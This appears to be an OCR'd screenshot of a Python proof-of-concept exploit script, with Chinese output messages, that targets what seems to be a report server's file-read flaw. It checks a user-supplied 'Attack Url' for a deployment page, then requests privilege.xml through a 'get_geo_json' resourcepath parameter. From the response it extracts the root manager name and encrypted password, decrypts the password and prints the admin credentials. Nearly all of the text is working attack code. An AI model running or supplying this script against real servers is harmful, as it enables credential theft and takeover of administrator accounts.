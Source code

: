 ```python
        response_1 = requests.get(url=vuln_url_1, timeout=5, verify=False, headers=headers)
        response_2 = requests.get(url=vuln_url_2, timeout=5, verify=False, headers=headers)
        if "部署页面" in response_1.text:
            print("\033[32m[o] 目标部署页面为: {} \033[0m".format(vuln_url_1))
            POC_2(vuln_url_1)
        elif "部署页面" in response_2.text:
            print("\033[32m[o] 目标部署页面为: {} \033[0m".format(vuln_url_2))
            POC_2(vuln_url_2)
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 {} \033[0m".format(e))
        sys.exit(0)

def POC_2(vuln_url_fileread):
    vuln_url = vuln_url_fileread + "?op=chart&cmd=get_geo_json&resourcepath=privilege.xml"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        print("\033[32m[o] 正在访问: {} \033[0m".format(vuln_url))
        if "rootManagerPassword" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标存在漏洞,读取敏感文件 \n{} \033[0m".format(response.text))
            user_name = re.findall(r'<!\[CDATA\[(.*?)]]></rootManagerName>', response.text)
            cipher = re.findall(r'<!\[CDATA\[(.*?)]]></rootManagerPassword>', response.text)
            password = decode_passwd(cipher[0])
            print("\033[34m[o] 后台账户密码为:{} {} \033[0m".format(user_name[0], password))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)


```
